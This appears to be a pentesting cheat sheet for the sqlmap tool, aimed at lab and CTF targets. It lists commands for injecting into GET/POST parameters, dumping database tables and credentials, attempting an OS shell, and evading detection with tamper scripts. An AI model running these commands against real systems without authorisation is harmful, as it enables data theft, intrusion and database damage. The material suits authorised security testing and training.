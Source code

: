 # SQLMap
```bash
        ___
       __H__
 ___ ___[']_____ ___ ___  {version#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
```

Reference:

* https://github.com/sqlmapproject/sqlmap/wiki/Usage


## GET URL Param

```bash
sqlmap -u http://10.10.10.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```

## POST body

```bash
sqlmap -u http://10.10.10.10/login.php --method POST --data "username=blah&password=blah&submitButton=Log+In" -p "password"
```

## Captured request (usually POST/PUT)

Save a burp request to a file named `request.txt`:

```bash
sqlmap -r request.txt -p someparam
```

If there is a `Host:` header, then sqlmap will figure out the target on its own. 

Parameters including cookies should also be detected (probably), but don't rely on this to work.

### Example credentials search workflow:

Get database names:

```bash
sqlmap -r request.txt --dbs
```

Get tables of a database:

```bash
sqlmap -r request.txt -D admin --tables
```

Dump content of a table:

```bash
sqlmap -r request.txt -D "admin" -T users --dump
```


## Common Params
### Parameters you want to test specfically

```bash
-p "param,param2"
```

### Discover databases:
```bash
--dbs
```

### Discover Tables:
```bash
-D "database_name"
--tables
```

### Table content:
```bash
-T <table_name>
--dump
```

### Attempt to gain Shell:
```bash
--os-shell
```

### Specify known database type:
```bash
--dbms=mysql
```

### Risk and level
```bash
--level <int>
--risk <int>
```

This is sadly not all that well documented. But in general `--level` increases the number of requests sent, so the number of test cases for each attack type. Higher `--risk` increases the chance to cause Denial of Service (DoS) or damage database content.

`--level` max is 5

* level 1 default
* level 2 adds HTTP Cookie header testing
* level 3 adds HTTP User-Agent/Referer headers testing
* level 4 ????
* level 5 adds Host header testing

`--risk` max is 3

* risk 1 default
* risk 2 adds heavy time-based SQL query injections
* risk 3 adds OR-based SQL injection tests (might damage database content!)

It should be mentioned that there is no "safe" `--level` or `--risk` to run SQLMap in a production environment. You can always cause damage depending on how poorly the API is coded by the developers.


### Get rid of cached session data

Sqlmap tends to cache a lot of data, this might be annoying if there was a false positive or if you changed your captured request file. Do this to get rid of it:

```bash
--flush-session
--fresh-queries
```

### (Burp) Proxy
```bash
--proxy http://localhost:8080
```

### Technique

* Stacked queries (S)
* Union query based (U)
* Error based (E) 
* Inline queries (I)
* Boolean blind (B)
* Time based blind (T)

Specify single technique or technique order

```bash
--technique U
--technique=BEUSTQ
```

For union based attacks you can specify the number of unions cols to test if the default is too small:

```bash
--union-cols=11
--union-cols=1-20
```

### Cookie
```default
--cookie "cookiename=
--cookie "cookiename=cookieprefix"
```

### Unicode Nonsense

CTFs sometimes do this in order to make it harder for you, they throw in some weird characters which are hard to work with on a utf-8 shell. One of the following parameters might help.

Convert output to hex during retrieval:
```bash
--hex
```

Redump entries having unknown character marker (?)
```bash
--repair
```

Character encoding for data retrieval
```bash
--encoding=
```

### Detection Evasion Using Tamper Scripts

```bash
--tamper=charencode
--tamper=charencode,appendnullbyte,escapequotes
```

### Before and after injection point

If you consistently want to add some string data before (prefix) or after (suffix) the injected paylods, then use these options. For example some brackets that need to be opened/closed to make the injection work.

```bash
--prefix "<str>"
--suffix "<str>"
```
